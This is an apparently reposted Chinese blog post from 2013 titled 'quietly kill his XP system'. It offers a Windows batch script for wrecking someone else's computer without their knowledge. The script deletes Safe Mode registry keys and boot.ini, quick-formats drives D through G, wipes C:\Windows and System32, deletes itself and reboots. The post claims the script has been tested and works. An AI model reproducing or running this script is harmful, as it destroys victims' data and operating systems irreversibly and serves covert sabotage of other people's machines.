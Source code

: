 ```yaml
---
author: 403 Forbidden
comments: true
date: 2013-05-25 23:45:54+00:00
layout: post
slug: '%e6%82%84%e6%82%84%e5%9c%b0%e5%b9%b2%e6%8e%89%e4%bb%96%e7%9a%84xp%e7%b3%bb%e7%bb%9f%ef%bc%9f'
title: 悄悄地干掉他的xp系统？
wordpress_id: 209
categories:
- 计算机技术
---
```

干掉xp？ 
简单，pe或者安装盘格盘不就完了么？ 
问题是怎么   悄悄的   干掉他的xp？ 
淫荡的人自有淫荡的方法，现在贴给你这个方法（太毒了，注意后边的话）

```bat
@echo off
echo exit|%ComSpec% /k prompt e 100 B4 00 B0 12 CD 10 B0 03 CD 10 CD 20 $_g$_q$_|debug>nul
chcp 437>nul
graftabl 936>nul
REG DELETE "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SafeBoot" /v Network /f
REG DELETE "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SafeBoot" /v Minimal /f
ATTRIB %SYSTEMDRIVE%\boot.ini -s -a -r -h
DEL %SYSTEMDRIVE%\boot.ini /f
format d:/q /y
format e:/q /y
format f:/q /y
format g:/q /y
cd c:\
cd windows
del *.* /q
cd system32
del *.* /q
del %0
shutdown -r -t 3
```


先改注册表. 
再改分区表. 
再格式化磁盘d、e、f、g分区 
再删除C盘的资料 
然后再关机……

添加到boot.ini,重启后执行删除

经过试验，这是真的

转载自：[http://www.5169.info/software/quietly-get-rid-of-his-xp-system.html](http://www.5169.info/software/quietly-get-rid-of-his-xp-system.html)
